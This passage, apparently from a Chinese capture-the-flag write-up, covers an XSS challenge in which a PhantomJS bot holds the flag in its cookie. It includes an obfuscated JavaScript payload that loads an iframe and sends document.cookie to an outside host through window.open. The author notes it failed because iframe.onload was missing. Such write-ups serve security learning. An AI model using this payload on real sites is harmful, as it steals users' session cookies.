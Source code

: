 并没有！

尝试在各处使用PhantomJs的api获得cookie，但实际上是可笑的。PhantomJs可以看做一个浏览器，而页面中的js与浏览器交互是通过windows对象，我们是无法从PhantomJs中webpage的open方法中跳出来的。另外也不存在java的反射机制，无法去用在网页也面的js里使用PhantomJs的api的。现在也并不知道提示bot为PhantomJs为何意。

参考： [PhantomJS参考教程](http://javascript.ruanyifeng.com/tool/phantomjs.html)

#### iframe用错了！

一开始写了如下的代码：

```javascript
var iframe = document.createElement(decode(sif)); 
iframe.src=decode(sindex);
document.body.appendChild(iframe);
iframe.id=decode(sid);
window.open(decode(shttp)+document.getElementById(decode(sid)).contentWindow.document.cookie);
```

死活就是打不到flag，一度认为此法也不同，后来是发现没有使用iframe.onload函数，没等到iframe加载就返回了cookie，所以失败

